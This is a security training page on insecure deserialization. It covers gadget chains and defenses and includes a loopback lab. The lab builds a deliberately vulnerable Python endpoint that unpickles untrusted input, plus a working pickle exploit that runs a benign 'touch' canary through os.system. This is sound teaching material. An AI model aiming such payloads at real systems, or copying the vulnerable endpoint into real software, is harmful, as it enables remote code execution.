

# 🧬 Insecure Deserialization Testing

> [!warning] Authorized simulation only
> Deserialization flaws often yield remote code execution. Prove the flaw with a benign object that produces an observable, harmless effect (writing a canary file), never a destructive or persistent payload. Test only in-scope systems you control.

## Parent Learning Order
File Inclusion & Path Traversal -> File Upload Security Testing -> Insecure Deserialization Testing -> XML External Entity Testing

## Start at Zero: Rebuilding an Object From Untrusted Bytes

Programs often need to save an object (a user session, a cache entry, a message) as bytes and later reconstruct it. **Serialization** turns an object into a byte stream; **deserialization** turns those bytes back into a live object. The flaw arises when a program deserializes **attacker-controlled bytes** — because in many languages, reconstructing an object *runs code* (constructors, magic methods, property setters). Feed the deserializer a crafted byte stream, and you can make the application instantiate objects and trigger method chains the developer never intended, often reaching remote code execution.

The mental model: deserialization is not "reading data," it is "executing a recipe for building objects." If an attacker writes the recipe, they influence what the program builds and does.

> [!tip] The analogy, and where it breaks
> Deserialization is like a flat-pack furniture kit: the box contains instructions the assembler follows exactly. The analogy breaks catastrophically — a furniture kit only builds furniture, whereas a serialized object's "instructions" can invoke *any* code the program has available, so a malicious kit can instruct the assembler to, in effect, rewire the building. The assembler follows attacker instructions with the program's full privileges.

**Prerequisites:** object-oriented programming basics (constructors, methods), and how applications persist state.

## Why It Reaches Code Execution: Gadget Chains

The attacker rarely writes new code — they assemble a **gadget chain** from classes already present in the application and its libraries. A gadget is a method that does something useful (writes a file, executes a command, loads a class) when an object is constructed or its properties are set. By crafting a serialized object graph that, upon deserialization, triggers a sequence of these gadgets, the attacker reaches code execution using only the target's *own* code. This is why deserialization flaws are so severe and so hard to fully patch: the gadgets are legitimate library code.

Each language has its signature: Java (`ObjectInputStream`, `readObject`, tools like ysoserial), PHP (`unserialize`, magic methods `__wakeup`/`__destruct`), Python (`pickle`, which executes on load by design), .NET (`BinaryFormatter`), and Ruby (`Marshal`). The common root: a deserializer applied to untrusted input in a language where deserialization can invoke code.

## The Signature Test: An Object That Executes on Load

The clearest example is Python's `pickle`, which *by design* can execute code during deserialization via `__reduce__`. Testing whether an endpoint deserializes untrusted input unsafely means sending a crafted object and observing a benign side effect:

```text
attacker object's __reduce__ returns:  (os.system, ("touch /tmp/canary",))
on pickle.loads(bytes):                the app runs `touch /tmp/canary`
```

The proof is the canary file appearing — deserialization executed attacker-chosen code. The payload does something *harmless and observable* (create a marker), never destructive.



## Failure Modes and Interpretation

- **Destructive proof.** A gadget chain could delete files or spawn a shell; the *finding* is proven by a benign, observable side effect (a canary file), never a destructive one.
- **Format identification.** You must recognize the serialization format (Java's `AC ED` magic bytes, PHP's `O:` object notation, a base64 blob) to know which gadget tooling applies. Misidentifying the format wastes effort.
- **Gadget availability.** A flaw may be present but unexploitable if no usable gadget chain exists in the target's libraries — report the *unsafe deserialization* as the finding even if you cannot chain to RCE, because a library update can introduce a gadget later.
- **Internal vs. external input.** Deserializing internal, trusted data is lower risk; the finding requires attacker-controllable input reaching the deserializer. Trace the data source.
- **Encoding layers.** Serialized blobs are often base64-encoded in cookies or parameters; decode to identify and craft.

## Security Implications — Detection & Defense

- **Do not deserialize untrusted input** — the definitive control. If data must cross a trust boundary, use a **data-only format** (JSON, with a schema) that reconstructs plain values, not arbitrary objects, so no code runs.
- **If native deserialization is unavoidable**, use allowlisting of permitted classes (look-ahead deserialization), integrity-protect the serialized data (sign it so it cannot be tampered), and keep libraries updated to remove known gadgets.
- **Prefer safe deserializers:** avoid Python `pickle`, Java `ObjectInputStream`, .NET `BinaryFormatter` on untrusted data — these are dangerous by design; use `json` and schema-validated parsers instead.
- **Detection** is hard because the payload is valid serialized data; look for unexpected object types in deserialized input, signed-blob tampering, and the side effects of exploitation (unexpected process spawns, file writes) rather than the payload itself.
- **This is a top-tier severity** because it typically yields RCE with the application's privileges — the reason "never deserialize untrusted input" is a categorical rule, not a nuanced tradeoff.

## Authorized Lab: Prove Unsafe Deserialization With a Canary

> [!info] Runs on one Linux machine — builds an endpoint that unsafely unpickles input, proven with a benign canary
> Loopback-bound; the payload only creates a marker file. Step 5 removes everything.

### Step 1 — Build an endpoint that deserializes untrusted input (the flaw)

```bash
cat > /tmp/deser.py << 'EOF'
import http.server, pickle, base64
class H(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        n=int(self.headers.get("Content-Length",0)); body=self.rfile.read(n)
        try:
            obj = pickle.loads(base64.b64decode(body))   # VULNERABLE: unpickle untrusted input
            self.send_response(200); self.end_headers(); self.wfile.write(f"loaded: {obj}".encode())
        except Exception as e:
            self.send_response(500); self.end_headers(); self.wfile.write(str(e).encode())
    def log_message(self,*a): pass
http.server.HTTPServer(("127.0.0.1",8104),H).serve_forever()
EOF
python3 /tmp/deser.py &>/dev/null &
sleep 1; echo "deserialization endpoint up on 127.0.0.1:8104"
```

```text
deserialization endpoint up on 127.0.0.1:8104
```

### Step 2 — Benign object (baseline)

```bash
python3 -c "import pickle,base64;print(base64.b64encode(pickle.dumps({'user':'alice'})).decode())" | \
  xargs -I{} curl -s -X POST -d '{}' http://127.0.0.1:8104/
```

```text
loaded: {'user': 'alice'}
```

A normal serialized dict loads as expected — the endpoint's intended behavior.

### Step 3 — Craft a malicious object whose reconstruction runs a BENIGN command

```bash
python3 - << 'EOF' > /tmp/payload.b64
import pickle, base64, os
class Exploit:
    def __reduce__(self):
        # BENIGN proof: create a canary file. NOT a shell, NOT destructive.
        return (os.system, ("touch /tmp/DESER-CANARY-9902",))
print(base64.b64encode(pickle.dumps(Exploit())).decode())
EOF
echo "payload crafted ($(wc -c < /tmp/payload.b64) bytes)"
```

```text
payload crafted (89 bytes)
```

### Step 4 — Send it and confirm code executed (the finding)

```bash
rm -f /tmp/DESER-CANARY-9902
curl -s -X POST --data-binary @/tmp/payload.b64 http://127.0.0.1:8104/ >/dev/null
sleep 1; ls -l /tmp/DESER-CANARY-9902 2>&1 | awk '{print $NF}'
```

```text
/tmp/DESER-CANARY-9902
```

The canary file exists — deserializing the crafted object **executed attacker-chosen code** (`touch`). That proves remote code execution via insecure deserialization, using a harmless command. A real exploit would run anything; the benign canary demonstrates the flaw without harm.

### Step 5 — Cleanup

```bash
kill %1 2>/dev/null; rm -f /tmp/deser.py /tmp/payload.b64 /tmp/DESER-CANARY-9902; wait 2>/dev/null
ls /tmp/DESER-CANARY-9902 2>&1 | tail -1
```

```text
ls: cannot access '/tmp/DESER-CANARY-9902': No such file or directory
```

**What you should now be able to do:** explain why deserialization can run code, describe gadget chains built from the app's own classes, prove unsafe deserialization with a benign canary side-effect, and articulate why "never deserialize untrusted input" is a categorical rule.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why deserialization is "executing a recipe to build objects," and why attacker-controlled bytes are dangerous.
- **Operator:** Identify a serialization format, craft a benign proof object, and demonstrate code execution via a canary side-effect.
- **Root:** Explain gadget chains and why they make deserialization flaws hard to fully patch, why data-only formats (JSON+schema) are the fix, and why native deserializers on untrusted input are dangerous by design.

---
> 🔼 Up: [[File, Parser & Serialization Security]]
